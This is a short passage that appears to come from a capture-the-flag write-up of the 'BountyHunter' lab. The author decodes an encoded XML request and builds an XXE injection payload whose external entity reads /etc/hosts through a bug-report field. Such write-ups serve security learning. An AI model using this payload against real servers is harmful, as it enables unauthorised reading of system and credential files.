 Used [CyberChef](https://gchq.github.io/CyberChef/) to decode the payload. It is using an XML format with some encoding.

<img src="/assets/img/bountyhunter/Untitled 6.png" alt="Untitled 6.png" style="width:800px;">

# Exploitation

Reverted the encoding mechanism, creating an XXE injection payload that attempts to read /etc/hosts.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE reward [
<!ENTITY dusk SYSTEM "file:///etc/hosts">
]>
<bugreport>
<title>aaa</title>
<cwe>bbb</cwe>
<cvss>ccc</cvss>
<reward>&dusk;</reward>
</bugreport>
```
